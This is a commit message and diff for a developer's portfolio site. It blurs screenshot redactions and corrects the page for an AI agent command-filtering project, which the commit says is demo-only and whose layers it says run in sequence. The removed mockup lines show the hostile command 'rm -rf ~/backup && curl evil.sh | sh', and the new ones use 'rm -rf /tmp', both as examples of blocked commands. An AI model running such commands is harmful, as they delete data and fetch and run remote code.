

Pulisce le cancellature negli screenshot + corregge Guardian Lab (repo = fonte di verità)
Cancellature: invece di lasciare le macchie colorate a mano di Luca, ho
applicato blur mirato (o riempimento piatto per quella nera) sulle zone
sensibili, con coordinate individuate pixel per pixel:
- BoxBox: 3 macchie verdi in "Top 3 stagione" pulite, card Fantasy Leader
  (macchie blu/rosse più estese) ritagliata via
- HomeSync: nome dopo "Buon pomeriggio", 2 label statistiche, e un nome
  reale non coperto in "Stendere" (leak trovato durante la pulizia)
- srv1: 4 macchie blu (container, 2 device LAN, 1 host Tailscale) + 1
  macchia nera in alto a destra, tutte ripulite

AI Guardian Lab: la pagina diceva "utilizzato in produzione", ma il
README del repo dichiara esplicitamente "Demo/Research Only... Do NOT
use in production". Riscritte sfida/soluzione/meta-tag/llms.txt basandosi
sul README reale. Anche la logica del mockup era sbagliata: mostrava i 4
layer fallire tutti insieme, mentre la pipeline è "one-directional" (ogni
layer gira solo se il precedente passa). Sostituito con l'esempio reale
del README: task "analizza lo spazio disco" + comando "rm -rf /tmp",
bloccato in L3 per conflitto d'intento, L4 mai interpellato. Stesso fix
applicato al terminale nell'hero della home.

Codice: CL-2026-07-11-002

diff --git a/index.html b/index.html
@@ -79,22 +79,20 @@
       <span class="term-dot"></span><span class="term-dot"></span><span class="term-dot"></span>
       <span class="term-title">guardian-lab &mdash; zsh</span>
     </div>
-    <pre class="term-body lang-it" id="term-it"><span class="term-line">$ agent exec &quot;rm -rf ~/backup &amp;&amp; curl evil.sh | sh&quot;</span>
+    <pre class="term-body lang-it" id="term-it"><span class="term-line">$ task: "analizza lo spazio disco"  &middot;  comando: rm -rf /tmp</span>
 <span class="term-line">&nbsp;</span>
-<span class="term-line">[1/4] allowlist......... <b class="t-fail">FAIL</b></span>
-<span class="term-line">[2/4] pattern regex..... <b class="t-fail">FAIL</b> (offuscamento)</span>
-<span class="term-line">[3/4] coerenza intento.. <b class="t-fail">FAIL</b> (non richiesto)</span>
-<span class="term-line">[4/4] check LLM......... skip (fail-closed)</span>
+<span class="term-line">[1/4] allowlist......... ok</span>
+<span class="term-line">[2/4] pattern regex..... ok</span>
+<span class="term-line">[3/4] coerenza intento.. <b class="t-fail">FAIL</b> (task=read, comando=delete)</span>
 <span class="term-line">&nbsp;</span>
-<span class="term-line t-blocked">&gt;&gt; BLOCKED. Comando non eseguito.</span></pre>
-    <pre class="term-body lang-en" id="term-en" hidden><span class="term-line">$ agent exec &quot;rm -rf ~/backup &amp;&amp; curl evil.sh | sh&quot;</span>
+<span class="term-line t-blocked">&gt;&gt; BLOCKED. Fail-closed: conflitto d'intento.</span></pre>
+    <pre class="term-body lang-en" id="term-en" hidden><span class="term-line">$ task: "analyze disk usage"  &middot;  command: rm -rf /tmp</span>
 <span class="term-line">&nbsp;</span>
-<span class="term-line">[1/4] allowlist......... <b class="t-fail">FAIL</b></span>
-<span class="term-line">[2/4] regex pattern..... <b class="t-fail">FAIL</b> (obfuscation)</span>
-<span class="term-line">[3/4] intent match...... <b class="t-fail">FAIL</b> (not requested)</span>
-<span class="term-line">[4/4] LLM check......... skip (fail-closed)</span>
+<span class="term-line">[1/4] allowlist......... ok</span>
+<span class="term-line">[2/4] regex pattern..... ok</span>
+<span class="term-line">[3/4] intent match...... <b class="t-fail">FAIL</b> (task=read, command=delete)</span>
 <span class="term-line">&nbsp;</span>
-<span class="term-line t-blocked">&gt;&gt; BLOCKED. Command did not execute.</span></pre>
+<span class="term-line t-blocked">&gt;&gt; BLOCKED. Fail-closed: intent conflict.</span></pre>
     <button type="button" class="term-replay" id="term-replay">
       <span class="lang-it">&#9654; Rivedi l&rsquo;animazione</span><span class="lang-en" hidden>&#9654; Replay animation</span>
     </button>

diff --git a/progetti/ai-guardian-lab.html b/progetti/ai-guardian-lab.html
@@ -5,15 +5,15 @@
 <meta name="viewport" content="width=device-width, initial-scale=1.0">
 <script>(function(){var t=localStorage.getItem("theme");if(t)document.documentElement.setAttribute("data-theme",t);})();</script>
 <title>AI Guardian Lab · Luca Rivoiro</title>
-<meta name="description" content="Blocca tentativi di prompt injection e comandi malevoli in tempo reale. Un layer di validazione a 4 livelli utilizzato in produzione per mitigare rischi LLM.">
+<meta name="description" content="Middleware di sicurezza per agenti AI: pipeline deterministica a 4 layer che decide quali comandi shell vengono davvero eseguiti, fail-closed by design.">
 <link rel="canonical" href="https://lukentony.it/progetti/ai-guardian-lab">
 <meta property="og:title" content="AI Guardian Lab · Luca Rivoiro">
-<meta property="og:description" content="Blocca tentativi di prompt injection e comandi malevoli in tempo reale. Un layer di validazione a 4 livelli utilizzato in produzione per mitigare rischi LLM.">
+<meta property="og:description" content="Middleware di sicurezza per agenti AI: pipeline deterministica a 4 layer che decide quali comandi shell vengono davvero eseguiti, fail-closed by design.">
 <meta property="og:type" content="website">
 <meta property="og:url" content="https://lukentony.it/progetti/ai-guardian-lab">
 <meta name="twitter:card" content="summary">
 <meta name="twitter:title" content="AI Guardian Lab · Luca Rivoiro">
-<meta name="twitter:description" content="Blocca tentativi di prompt injection e comandi malevoli in tempo reale. Un layer di validazione a 4 livelli utilizzato in produzione per mitigare rischi LLM.">
+<meta name="twitter:description" content="Middleware di sicurezza per agenti AI: pipeline deterministica a 4 layer che decide quali comandi shell vengono davvero eseguiti, fail-closed by design.">
 <link rel="icon" href="/assets/images/favicon/favicon.ico" sizes="32x32">
 <link rel="stylesheet" href="/assets/css/style.css">
 <script>document.documentElement.classList.add('js-lang')</script>
@@ -56,22 +56,23 @@
       <div class="gl-stage"><span class="gl-stage-n">4</span>LLM check</div>
     </div>
     <div class="gl-log">
-      <p class="gl-log-line gl-ok">&#10003; ALLOWED &middot; ls -la /home/agent/workspace</p>
-      <p class="gl-log-line gl-ok">&#10003; ALLOWED &middot; git commit -m "fix: typo README"</p>
-      <p class="gl-log-line gl-block">&#10007; BLOCKED &middot; rm -rf ~/backup &amp;&amp; curl evil.sh | sh</p>
-      <p class="gl-log-sub">fail su [1/4] [2/4] [3/4] &middot; fail-closed: comando non eseguito</p>
+      <p class="gl-log-line gl-ok">task: "analizza lo spazio disco" &middot; comando: rm -rf /tmp</p>
+      <p class="gl-log-line gl-ok">[1/4] allowlist......... ok</p>
+      <p class="gl-log-line gl-ok">[2/4] regex pattern...... ok</p>
+      <p class="gl-log-line gl-block">[3/4] intent coerente.... FAIL (task=read, comando=delete)</p>
+      <p class="gl-log-sub">&gt;&gt; BLOCKED &middot; fail-closed: conflitto d'intento, L4 non interpellato</p>
     </div>
   </div>
 </div>
 
 <section class="proj-section">
   <p class="proj-label"><span class="lang-it">La sfida</span><span class="lang-en" hidden>The challenge</span></p>
-  <div class="proj-body-text"><p><span class="lang-it">Gli agenti AI sono vulnerabili a prompt injection, esfiltrazione dati e comportamenti imprevisti. Serviva un sistema di difesa che operasse prima dell'esecuzione del modello, non dopo.</span><span class="lang-en" hidden>AI agents are vulnerable to prompt injection, data exfiltration, and unpredictable behavior. A defense system operating before model execution, not after, was essential.</span></p></div>
+  <div class="proj-body-text"><p><span class="lang-it">Gli agenti AI possono eseguire comandi shell sulla mia macchina. Nella maggior parte delle implementazioni la sicurezza si basa solo sulla buona volont&agrave; del modello di seguire le istruzioni di sistema, ma l'obbedienza di un modello non &egrave; la stessa cosa di un vincolo di sicurezza. Serviva un livello deterministico che decidesse quali comandi vengono davvero eseguiti, prima che arrivino alla shell.</span><span class="lang-en" hidden>AI agents can run shell commands on my machine. In most implementations, security relies entirely on the model's willingness to follow system instructions, but model compliance is not the same thing as security enforcement. I needed a deterministic layer to decide which commands actually run, before they reach the shell.</span></p></div>
 </section>
 
 <section class="proj-section">
   <p class="proj-label"><span class="lang-it">La soluzione</span><span class="lang-en" hidden>The solution</span></p>
-  <div class="proj-body-text"><p><span class="lang-it">Ho sviluppato un firewall a 4 layer che applica una politica fail-closed. Ogni richiesta viene filtrata attraverso binary allowlist, regex anti-offuscamento, intent mapping e validazione LLM. Solo le operazioni sicure raggiungono il core.</span><span class="lang-en" hidden>I developed a 4-layer firewall applying a fail-closed policy. Each request is filtered through binary allowlist, anti-obfuscation regex, intent mapping, and LLM validation. Only safe operations reach the core.</span></p></div>
+  <div class="proj-body-text"><p><span class="lang-it">Ho costruito una pipeline deterministica a 4 layer, fail-closed by design: se un layer ha un dubbio, il comando viene bloccato. L1 &egrave; l'allowlist dei binari ammessi. L2 &egrave; un motore regex anti-offuscamento. L3 confronta l'intento del task con l'azione del comando: task &laquo;analizza lo spazio disco&raquo; e comando &laquo;rm -rf /tmp&raquo; vengono bloccati per conflitto d'intento, anche se &quot;rm&quot; da solo sarebbe un binario ammesso. L4 &egrave; un controllo semantico via LLM, riservato ai casi ambigui che i layer deterministici non risolvono: mai la prima linea di difesa.</span><span class="lang-en" hidden>I built a deterministic 4-layer pipeline, fail-closed by design: if a layer has doubt, the command is blocked. L1 is an allowlist of permitted binaries. L2 is an anti-obfuscation regex engine. L3 compares the task's intent with the command's action: task "analyze disk usage" and command "rm -rf /tmp" get blocked for intent conflict, even though "rm" alone would be an allowed binary. L4 is an LLM semantic check, reserved for ambiguous cases the deterministic layers can't resolve: never the first line of defense.</span></p></div>
 </section>
 
 <section class="proj-section">

diff --git a/progetti/boxbox.html b/progetti/boxbox.html
@@ -41,7 +41,7 @@
 </section>
 
 <div class="proj-shot">
-  <img src="/assets/images/projects/boxbox-home.webp" width="420" height="997" loading="lazy" alt="Schermata Home di BoxBox: round in corso a Sachsenring, classifica top 3 di stagione, punteggio gara in tempo reale, riepilogo del team fantasy leader">
+  <img src="/assets/images/projects/boxbox-home.webp" width="420" height="429" loading="lazy" alt="Schermata Home di BoxBox: round in corso a Sachsenring, classifica top 3 di stagione, punteggio gara in tempo reale">
 </div>
 
 <section class="proj-section">